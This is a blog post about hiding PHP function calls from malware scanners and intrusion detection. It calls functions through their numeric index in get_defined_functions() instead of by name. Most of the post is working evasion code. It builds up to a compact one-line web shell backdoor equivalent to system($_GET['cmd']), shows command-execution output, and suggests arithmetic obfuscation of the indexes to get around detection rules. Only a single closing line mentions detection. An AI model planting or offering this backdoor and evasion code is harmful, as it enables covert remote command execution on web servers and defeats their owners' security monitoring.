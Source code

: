```yaml
---
title: Calling functions without their names in PHP
author: Jan Seidl
type: post
date: 2014-04-10T23:11:52+00:00
url: /posts/calling-functions-without-their-names-in-php/
categories:
  - Malware
tags:
  - backdoor
  - malware
  - obfuscation
  - php

---
```

Strings. Ah juicy and precious strings! It is common for malware scanners and IDPS to look for suspicious strings in network traffic and files&#8230; but what if there are no strings to look for? (whaaa?)

Today I was wondering about some features found in many interpreted languages of listing its internal functions in some sort of list/array. This way we can enumerate the `[index] => function_name` relationship, replace all `function_name`s on the code to their index and _voilá_!

You might ask: _&#8220;But you can just put those indexes on the rulesets.&#8221;_ I answer: _&#8220;Yes, that&#8217;s true&#8221;_. But different server/<acronym title="Pre-Hypertext Processing">PHP</acronym> configurations might generate the different indexes. Besides, numbers are much more fun to obfuscate than strings.

## <acronym title="Pre-Hypertext Processing">PHP</acronym>, because it&#8217;s widely used on the wild

I wasn&#8217;t remembering if <acronym title="Pre-Hypertext Processing">PHP</acronym> had this or not but I was pretty confident due to its nature. Turns out that [`get_defined_functions`](http://br1.php.net/get_defined_functions) is there as expected. With the aid of [`call_user_func_array`](http://br1.php.net/manual/en/function.call-user-func-array.php) it enabled the calling of functions without writing down their names in any encoded form (but it is required that you enumerate them beforehand).

## The Code

This snippet has fewer than 10 lines (and it&#8217;s optimized for readability) and is our indirect caller function.

{{< highlight php >}}
function callfunc() {

    $df = get_defined_functions(); # returns Array([internal] => Array([0] => zend_version....

    $args = func_get_args();
    $func_index = array_shift($args);
    $func_name = $df['internal'][$func_index];

    return call_user_func_array($func_name, $args);
}//end :: callfunc
{{< /highlight >}}

Then you can call your functions like this:

{{< highlight php >}}
/**
 * Depends on each server. Check it out with
 *  print_r(get_defined_functions());
 *
 * Some examples 
 * [544] => phpinfo
 * [639] => exec
 * [640] => system
 * [643] => passthru
 * [644] => shell_exec
 * [596] => str_replace
 */
callfunc(640, 'id'); # system('id')
print callfunc(639, 'uname -a'); # exec('uname -a')
print callfunc(596, "%body%", "black", "&lt;body text='%body%'&gt;"); # str_replace("%body%", "black", "&lt;body text='%body%'&gt;")
{{< /highlight >}}

### The output

Just for illustration:

{{< highlight bash >}}
uid=33(www-data) gid=33(www-data) groups=33(www-data) Linux guineapig 2.6.32-5-amd64 #1 SMP Mon Sep 23 22:14:43 UTC 2013 x86_64 GNU/Linux
{{< /highlight >}}


<h4>
  We can even make it a little more compact
</h4>


{{< highlight php >}}

function callfunc() {
    $df = get_defined_functions();
    $args = func_get_args();
    return call_user_func_array($df['internal'][array_shift($args)], $args);
}//end :: callfunc
{{< /highlight >}}


<h3>
  But Jan, there are still tree other internal function names exposed in your code. (func_get_args, call_user_func_array and array_shift)
</h3>


<p>
  Heck, you&#8217;re right. Let&#8217;s make this better.
</p>


{{< highlight php >}}

function callfunc() {
    $df = get_defined_functions();
    $args = $df['internal'][3]();
    return $df['internal'][734]($df['internal'][$df['internal'][982]($args)], $args);
}//end :: callfunc
{{< /highlight >}}


<p>
  or even&#8230;
</p>


{{< highlight php >}}

function callfunc() {
    $df = get_defined_functions(); 
    $df = $df['internal'];
    $args = $df[3]();
    return $df[734]($df[$df[982]($args)], $args);
}//end :: callfunc
{{< /highlight >}}


<h3>
  MOAR compact!
</h3>


{{< highlight php >}}

 function f(){$a=get_defined_functions();$a=$a['internal'];$b=$a[3]();return $a[734]($a[$a[982]($b)],$b);}
{{< /highlight >}}


<h3>
  A simple silly backdoor
</h3>


{{< highlight php >}}

# equiv. to system($_GET['cmd']);
 function f(){$a=get_defined_functions();$a=$a['internal'];$b=$a[3]();return $a[734]($a[$a[982]($b)],$b);};f(640, $_GET['cmd']);
{{< /highlight >}}


<h2>
  How the numbers could be obfuscated to bypass simple rules?
</h2>


<p>
  Well, with the very simple math stuff:
</p>


<ul>
  <li>
    XOR/AND/OR all entries: $index^$key, $index&#038;$key, $index|$key
  </li>
  
  
  <li>
    SUM/SUB/DIV/MUL all entries: $index+$key,$index-$key, $index/$key, $index*$key
  </li>
  
</ul>


<p>
  And so on.
</p>


<h2>
  So, what to do to prevent/catch those things?
</h2>


<p>
  Keep an eye for <code>get_defined_functions</code>.
</p>


<p>
  Cya!
</p>
